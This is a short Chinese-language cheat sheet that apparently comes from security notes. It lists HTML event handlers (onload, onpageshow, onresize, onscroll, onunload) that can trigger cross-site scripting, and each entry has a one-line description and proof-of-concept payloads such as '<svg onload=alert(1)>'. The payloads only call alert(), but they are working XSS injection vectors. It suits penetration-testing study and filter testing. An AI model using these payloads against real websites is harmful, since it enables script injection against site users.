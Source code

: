 **onload**
```
当页面载入完毕后执行Javascript代码
```
poc
```
<svg onload=alert(1)>
<body onload="alert()">
```

**onpageshow**
```
在用户浏览网页时触发 JavaScript
```
poc
```
<body onpageshow="alert()">
```

**onresize**
```
有点像onpageshow，浏览网页直接触发。
```
poc
```
<svg onresize=alert(1)>
<body onresize="alert()">
```

**onscroll**
```
<div> 元素滚动时执行 JavaScript，比较鸡肋，只有在DIV标签下才能触发
```
poc
```
<style>
div {
    border: 1px solid black;
    width: 200px;
    height: 100px;
    overflow: scroll;
}
</style>

<div onscroll="alert(1)">In my younger and more vulnerable years my father gave me some advice that I've been turning over in my mind ever since.
</div>
```
**onunload**
```
当用户未载入文档时执行的Javascript代码（F5刷新），比较鸡肋，只有IE有用。
```
poc
```
<body onunload="alert()">
```
